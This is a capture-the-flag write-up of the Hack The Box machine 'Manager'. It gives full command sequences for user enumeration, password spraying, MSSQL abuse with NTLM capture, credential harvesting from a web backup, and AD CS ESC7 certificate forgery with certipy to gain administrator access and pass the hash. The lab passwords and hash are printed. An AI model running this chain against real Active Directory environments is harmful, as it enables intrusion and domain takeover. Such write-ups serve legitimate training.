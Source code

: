 ```yaml
---
date: 2025-01-18
categories: [CTF, HTB]
title: "HTB - Manager"
tags: ['hashcat', 'impacket', 'linux', 'nmap', 'privilege escalation', 'rce', 'smb', 'windows']

description: "Manager - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Manager

NMAP

![image1](../resources/0aaa9860fd9a41b0ad8c934cd32f5256.png)
 
Add manager.htb to /etc/hosts

```bash
./kerbrute userenum --dc 10.129.217.154 -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt

```

![image2](../resources/b2465f024a0c41519698f423a6e726c1.png)

```bash
cat users.txt | grep "VALID" | cut -d ":" -f 4 | cut -d " " -f 2 > validusers.txt

impacket-GetNPUsers manager.htb/ -users validusers.txt -no-pass -dc-ip manager.htb
```

![image3](../resources/254b9407b415478ab6610387debfca97.png)

- No ASRepRoasting to be done

- Not able to login with usernames and no password:
  
```bash
enum4linux -u "guest" -a manager.htb

```
- Extract the usernames:
  
```bash
cat validusers.txt | cut -d '@' -f1 > usernames.txt

```
- Got a using the usernames as passwords:
  
```bash
crackmapexec smb manager.htb -u usernames.txt -p usernames.txt --no-brute --continue-on-success

```

![image4](../resources/eea8a12ece0c459b93854c2005b25275.png)

**operator:operator**

**<u>MSSQL</u>**

- We do have port 1433 open - MSSQL:

- Using Windows' own **sqlcmd** - it doesn't work:
  
```bash
sqlcmd -S manager.htb,1433 -U operator -P operator -C

```

![image5](../resources/5d76c8f76d954958b795a9e18ec48cd5.png)

- But using impacket's tool mssqlclient:
  
```bash
impacket-mssqlclient -p 1433 manager/operator:operator@manager.htb -windows-auth

```

![image6](../resources/99b0ec907f5a4869bda3a02ed837b8fe.png)

We can connect specifying the **-windows-auth** parameter

It authenticates using Windows authentication, which could suggest that the 'operator' account is configured or works correctly under Windows authentication rather than SQL Server authentication

<u>List of extra commands:</u>


![image7](../resources/2f7494eef5664d589dd45345cb972db0.png)

```sql
SELECT @@VERSION -- to get the SQL Server version,
SELECT SYSTEM_USER -- to identify the current user,
SELECT name FROM master.sys.databases -- to list databases
USE DatabaseName; -- Use db
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE'; -- Show all tables in db
SELECT * FROM TableName; -- Show all information in table
```
----------------------------------------------------------------------------------------------------------------

- Tried to crack ntlm hashes with xp_dirtree and responder:

![image8](../resources/d4c0dd63c9f445b1afe8dd6696615a20.png)


![image9](../resources/76f151fbf7824747b249c7e0f170faa1.png)


![image10](../resources/9f9aedd0abbe4b4184e63beb28c32bde.png)


![image11](../resources/c78b85ef04ed479fa9c5ee31e2290425.png)

But hashcat got exhausted

----------------------------------------------------------------------------------------------------------------

- Using xp_dirtree we can list all the folders in c:\\

![image12](../resources/4d8818100ffc4512a8d55ed9ae323f53.png)

- The default IIS webserver directory is:  
**C:\inetpub\wwwroot**


![image13](../resources/64fb85956c6341f8b29c5f13b89d3bed.png)

Here we can see a .zip file

- Using wget we can download the file:
  
```bash
wget http://manager.htb/website-backup-27-07-23-old.zip

```

![image14](../resources/f3341b964f204c6eb1e6935054e02c92.png)

- We get credentials for raven in the **.old-conf.xml**:

![image15](../resources/2c6fe37d17114303965dc8c159082031.png)

**raven : R4v3nBe5tD3veloP3r!123**


![image16](../resources/3c3efa2fc52c4cacb9e4c6cc8e6c5501.png)

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

```

![image17](../resources/003b757401604cd1be69a9ea7b0ed67a.png)

```bash
cat user.txt

```
- Check VMWare version:
  
```powershell
$vmwareToolsDir = "C:\Program Files\VMware\VMware Tools"
$vmwareToolsVersion = (Get-Item "$vmwareToolsDir\vmtoolsd.exe").VersionInfo.FileVersion
Write-Host "VMware Tools Version: $vmwareToolsVersion"

```

![image18](../resources/25dc1069185941a7a432cad977f77ca4.png)

- Upload Certify.exe:
**Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS)**

<https://github.com/GhostPack/Certify>

```bash
.\Certify.exe find /vulnerable

```

![image19](../resources/c8af8c2b87244e07bba9201823fd087a.png)

Raven has ManageCA and Enroll rights but there are no vulnerable templates

This does confirm however that there are ADCS services running


![image20](../resources/ede8fbf26aa64d33b6e422a1cdfab847.png)

- <u>This scenario is vulnerable to ESC7:</u>
<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation>

<https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7>

- **<u>Steps (on Kali):</u>**

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image21](../resources/879f1ab119c14bfb9bbddd70c1e31605.png)

```bash
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image22](../resources/949370e28b9f461db3da6d2925e8c6c4.png)

**<u>Attack</u>**

- If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.
This request will be denied, but we will **save the private key** and note down the **request ID**

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb

```

![image23](../resources/207f1cf8d6744258b457b6e55da46cec.png)

- With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the
-issue-request \<request ID\> parameter

```bash
certipy ca -ca 'manager-DC01-CA' -issue-request **13** -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```

![image24](../resources/939eb694d26b41f99d409f1092996575.png)

- And finally, we can retrieve the issued certificate with the req command and the -retrieve \<request ID\> parameter

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 13

```

![image25](../resources/b508267ecf5a40adaf179cc413aa3dd2.png)

- Now we have a **.pfx certificate** as the administrator

- Authenticate as the administrator:
  
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.218.140

```

![image26](../resources/76c6fc86c8494ddb96624e3e89883ae4.png)

We get a NTP error because the time difference between my Kali machine and the DC is too big

- To synchronise the time, run:
  
```bash
sudo ntpdate -u manager.htb

```

![image27](../resources/89eb775c801241b0abd0b6b2f5273ab0.png)

These two steps, between the ntp sync and auth, needs to be quick

- And we get an administrator hash:

![image28](../resources/2d29121dc61448e18c2aeeb3ab32c5d1.png)

- Using the hash and evil-winrm:
  
```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

```

![image29](../resources/26f6cfb6503540428d9ae1ce1f6f9895.png)

```bash
cat root.txt

```
